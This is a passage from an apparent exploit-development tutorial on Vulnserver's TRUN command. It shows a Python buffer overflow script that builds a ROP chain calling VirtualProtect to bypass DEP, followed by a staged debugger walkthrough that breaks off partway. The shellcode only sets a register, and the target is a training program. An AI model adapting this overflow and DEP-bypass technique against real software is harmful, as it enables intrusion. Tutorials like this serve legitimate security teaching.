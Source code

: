``` python
HOST = '192.168.0.20'
PORT = 9999


PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # Pointer to `VirtualProtect()`: 0x6250609C -> 0x76070420
    struct.pack('<L', 0x76070420) +
    # Pointer to JMP ESP
    struct.pack('<L', 0x625011AF) +
    # lpAddress: Dynamic value. Will put a placeholder for now
    struct.pack('<L', 0x41414141) +
    # dwSize: 0x00000200. As we can't inject NULL bytes, we will place
    # 0x11111201 for now
    struct.pack('<L', 0x11111201) +
    # flNewProtect: 0x00000040: As we can't inject NULL bytes, we will place
    # 0x11111140 for now
    struct.pack('<L', 0x11111140) +
    # lpflOldProtect, Pointer to writable address: 0x62504040
    struct.pack('<L', 0x62504040) +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

I will now run the exploit in stages, to explain every step:

<div class="imgblock">

![Stage 1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331214/blog/vulnserver-trun-rop/run1_rffdx0.gif)

</div>

Here, we can see that we effectively injected the parameters on the
stack and that our first `RETN` gave control to call `VirtualProtect()`.
However, there are some values that need to be changed. Let’s do that:

<div class="imgblock">

![Stage 2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331214/blog/vulnserver-trun-rop/run2_bikqys.gif)

</div>

In this part, I modified the `lpAddress` value with the current value of
`ESP`, then modified `dwSize` making it `0x00000200` or 512 bytes, and
`flNewProtect` was set to `0x40` (`PAGE_EXECUTE_READWRITE`). Now, let
the exploit continues with the modified values:
